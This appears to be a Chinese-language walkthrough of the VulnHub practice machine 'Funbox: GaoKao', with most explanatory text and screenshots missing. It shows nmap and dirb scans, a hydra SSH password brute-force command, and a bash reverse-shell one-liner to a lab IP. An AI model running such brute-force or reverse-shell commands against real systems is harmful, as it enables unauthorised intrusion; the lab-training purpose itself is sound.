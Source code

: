 # 原创
：  VulnHub渗透测试实战靶场 - Funbox: GaoKao

# VulnHub渗透测试实战靶场 - Funbox: GaoKao

#### VulnHub渗透测试实战靶场 - Funbox: GaoKao

## 题目描述

```
It's a box for beginners, but not easy. Gather careful !!!

Hint:

Don't waste your time ! Every BruteForce-Attack at all ports can be stopped after 1500 trys per account.

Enjoy the game and WYSIWYG !

This works better with VirtualBox rather than VMware

```

## 环境下载

> 



## Funbox: Lunchbreaker靶机搭建

> 

- 将下载好的靶机环境，导入 VritualBox，设置为 Host-Only 模式- 将 VMware 中桥接模式网卡设置为 VritualBox 的 Host-only


> 



## 渗透测试

### 信息搜集

> 
用 Nmap 扫描一下目标靶机的端口信息：`sudo nmap -sS -A -Pn 192.168.56.117`，发现开放了 `21、22、80、3306` 四个端口


> 
用 dirb 扫描一下 80 端口 web 目录：`dirb http://192.168.56.116`


### 漏洞挖掘

> 



> 



```
hydra -l sky -P rockyou.txt 192.168.56.117 ssh

```

> 



```
#!/bin/sh
bash -i &gt;&amp; /dev/tcp/192.168.56.102/1234 0&gt;&amp;1;

```

> 



### getshell

> 



### 提权

> 



> 


